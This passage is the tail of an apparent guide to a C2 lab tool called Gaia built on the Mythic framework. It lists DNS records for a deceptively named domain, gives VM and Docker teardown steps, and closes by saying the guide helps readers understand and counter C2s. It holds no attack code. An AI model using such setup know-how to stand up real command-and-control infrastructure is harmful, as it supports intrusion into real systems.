Name: thislookslegit.net  Type: NS  Value: maceio.porkbun.com
Name: thislookslegit.net  Type: NS  Value: salvador.porkbun.com
Name: thislookslegit.net  Type: TXT  Value: v=spf1 include:_spf.porkbun.com ~al
```
Here's the view from the web app.



## Dealing with the Mythic Server
At this point, feel free to revert the Mythic server to a VM image to a snapshot from before you installed Mythic, or delete the VM. If you are running on bare-metal, you can delete the docker containers if you wish. The way I use Gaia is by reverting the VM back to just after installation. 

Thanks for checking Gaia out! I hope it and this guide helps you better understand how C2s work, and help you come up with strategies to counter them in the wild.